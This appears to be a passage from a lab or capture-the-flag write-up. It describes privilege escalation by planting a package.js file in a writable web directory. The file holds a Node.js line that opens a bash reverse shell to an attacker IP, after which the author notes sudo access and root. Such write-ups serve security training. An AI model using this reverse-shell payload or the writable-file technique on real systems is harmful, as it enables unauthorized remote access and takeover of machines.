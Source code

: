 It uses a `package.js` file from `/var/www/node`, a directory we have write access over as `www-data`. We can create a `package.js` file like this:

```javascript
require('child_process').exec("bash -c 'bash -i >& /dev/tcp/192.168.45.208/80 0>&1'")
```

Then, we can just wait for the shell to execute.&#x20;

<figure><img src="../../../.gitbook/assets/image (110).png" alt=""><figcaption></figcaption></figure>

The user is part of the `sudo` group, and it is trivial to become the `root` user:

<figure><img src="../../../.gitbook/assets/image (99).png" alt=""><figcaption></figcaption></figure>

Rooted!
